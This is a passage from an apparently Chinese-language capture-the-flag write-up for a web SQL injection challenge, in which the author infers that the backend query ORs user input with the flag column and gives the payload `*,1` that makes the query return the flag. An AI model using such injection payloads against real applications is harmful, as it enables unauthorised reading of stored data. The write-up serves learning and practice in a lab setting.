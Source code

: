 

通过测试, `#`,`;`等符号都还可以使用

另外发现,这里不管查询多大的数字,都会且仅会返回`Array ([0] =>1)`

根据https://blog.csdn.net/mochu7777777/article/details/108937396 这里应该是进行了一次或运算

那么查询语句应该是:

```
$sql = "select ".$post['query']."||flag from Flag";
```

用户提交的参数和flag进行了一次或运算后再执行查询,这样无论提交什么非0数字,实际上执行的查询就是:

```sql
select 1 from Flag;
```

返回的结果自然为1

<img src="/images/buuctf-web/image-20221013194904850.png" alt="image-20221013194904850" style="zoom:67%;" />



那么payload设置为: `*,1`就可以查询到flag,这样实际执行的查询语句是:

```
select *,1 from Flag; 
```
